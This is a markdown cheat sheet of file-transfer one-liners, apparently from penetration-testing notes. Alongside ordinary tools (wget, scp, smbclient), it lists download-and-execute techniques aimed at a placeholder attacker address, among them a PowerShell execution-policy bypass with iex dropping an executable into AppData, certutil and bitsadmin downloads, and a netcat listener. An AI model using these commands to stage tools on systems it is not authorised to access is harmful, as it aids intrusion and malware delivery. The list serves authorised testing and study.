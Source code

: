 # File Transfer

| Command |
|---------|
| `wget http://$IP/file -O /tmp/test.tmp` |
| `curl http://$IP/file` |
| `fetch http://$IP/file` |
| `nc $IP $port > outfile` |
| `nc -lnvp $port < infile` |
| `ftp -s:input.txt` |
| `ftp $ip` |
| `get $filename` |
| `sudo apt install python-pyftpdlib` |
| `sudo python -m pyftpdlib -p 21` |
| `python -m SimpleHTTPServer 80` |
| `python -m http.server 80` |
| `curl -O http://$ip/putty.exe` |
| `python smbserver.py ata /root/share` |
| `[WIN+R] \\$ip` |
| `apt install smbclient` |
| `smbclient -L $ip` |
| `smbclient //$ip/ata` |
| `(new-object System.Net.WebClient).DownloadFile('//$ip/putty.exe', 'd:\\data\\putty.exe')` |
| `bitsadmin /transfer job //example.com/path/putty.exe F:\\putty.exe` |
| `php -S 0.0.0.0:80` |
| `scp $filename user@host:~/path_dir` |
| `scp $filename $username@$ip:~/` |
| `python -m pyftpdlib 21` |
| `ftp $ip` |
| `bitsadmin /transfer download /priority normal http://$ip/file C:\\output\\path` |
| `powershell.exe -exec bypass -Command “& {iex((New-Object System.Net.WebClient).DownloadFile('http://$ip:$port/$filename','C:\\Users\\user\\AppData\\Local\\ack.exe'));}”` |
| `certutil -urlcache -split -f “http://$ip/$filename" $filename` |
| `echo $storageDir = $pwd > wget.ps1` |
| `echo $webclient = New-Object System.Net.WebClient >> wget.ps1` |
| `echo $url = "http://$ip/$filename" >> wget.ps1` |
| `echo $filename = "filename" >> wget.ps1` |
| `echo $webclient.DownloadFile($url,$filename) >> wget.ps1` |
| `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File $filename` |
